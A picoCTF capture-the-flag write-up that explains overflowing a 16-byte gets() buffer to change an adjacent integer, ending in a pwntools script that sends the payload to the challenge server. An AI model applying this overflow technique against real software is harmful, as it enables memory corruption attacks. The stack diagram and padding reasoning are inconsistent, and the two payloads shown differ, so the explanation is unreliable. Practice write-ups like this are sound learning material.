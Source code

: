 # Local Target

In this challenge from [picoCTF](https://play.picoctf.org/practice/challenge/399) we need to change the value of a variable.

Looking at how the variables are assigned in the stack, we can see that `num` is set just after our `input` buffer. We also know that the input buffer is 16 bytes:

```c
char input[16];
int num = 64;
```

The goal here is to change `num` from 64 to 65.


We know that num is assigned just after our input buffer, so our stack looks like that:

```
|------------------|
|     input[15]    | <-- input[16] byte array (16 bytes)
|------------------|
|     input[14]    |
|------------------|
|     ...          |
|------------------|
|     input[0]     |
|------------------|
|     num          | <-- num (4 bytes)
|------------------|
```
We now that input is an array of 16 chars so it's size is 16 bytes. We also know that num is an integer so 4 bytes and the code uses `gets(input)` so we will need 4 more extra bytes for the padding.
So in total, we will need 24 bytes before writing on num.
Also, input is a char array, so we need to know wich char as the value of 65 in ASCII:

```py
>>> chr(65)
'A'
```

From this we can make this palyoad: 

```py
payload = '0' * 24 + 'A'
```

## Solve:

```py
from pwn import *

payload = 'A' * 24 + 'A'

p = remote('saturn.picoctf.net', 54933)
p.recv(timeout=1)
p.sendline(payload.encode())
p.interactive()
```